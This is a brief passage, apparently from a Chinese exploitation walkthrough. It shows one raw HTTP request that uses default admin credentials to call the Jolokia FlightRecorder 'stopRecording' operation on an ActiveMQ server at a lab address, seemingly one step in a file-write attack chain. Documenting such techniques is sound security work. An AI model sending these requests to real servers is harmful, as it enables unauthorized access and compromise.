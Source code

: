 ![image-20240228112313884](images/8.png)

结束录制

```
POST /api/jolokia HTTP/1.1
Host: 192.168.50.74:8161
Authorization: Basic YWRtaW46YWRtaW4=
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM
origin: http://localhost
Connection: close
Content-Type: application/json
Content-Length: 138

{
    "type": "EXEC",
    "mbean": "jdk.management.jfr:type=FlightRecorder",
    "operation": "stopRecording",
    "arguments": [7]
}
```
